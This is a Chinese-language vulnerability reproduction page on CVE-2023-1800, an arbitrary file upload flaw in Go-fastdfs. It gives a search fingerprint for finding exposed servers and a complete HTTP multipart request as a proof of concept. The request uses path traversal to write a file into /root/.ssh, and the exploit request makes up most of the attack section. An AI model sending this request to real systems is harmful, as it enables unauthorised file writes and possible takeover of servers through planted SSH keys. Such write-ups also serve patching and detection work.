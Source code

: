 # Go-fastdfs upload 任意文件上传漏洞 CVE-2023-1800

## 漏洞描述

Go-fastdfs upload 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，攻击服务器

## 漏洞影响

<a-checkbox checked>Go-fastdfs </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"go-fastdfs"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1680944897657-800f832f-0834-4ac3-bf45-bd1f208326a4.png)

验证POC

```plain
POST /group1/upload HTTP/1.1
Host: 
Content-Length: 951
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryigj9M9EJykZc9u53
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="file"; filename="id"
Content-Type: application/octet-stream

test
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="scene"

default
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="filename"

id_rsa
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="output"

json2
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="path"

../../../../../root/.ssh
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="code"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="auth_token"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="submit"

upload
------WebKitFormBoundaryigj9M9EJykZc9u53--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1680945913939-8a4b54a3-9866-4b15-9597-f85fe6f96d87.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1680945923699-7cf43053-bf59-4441-890e-cfe4e0c37463.png)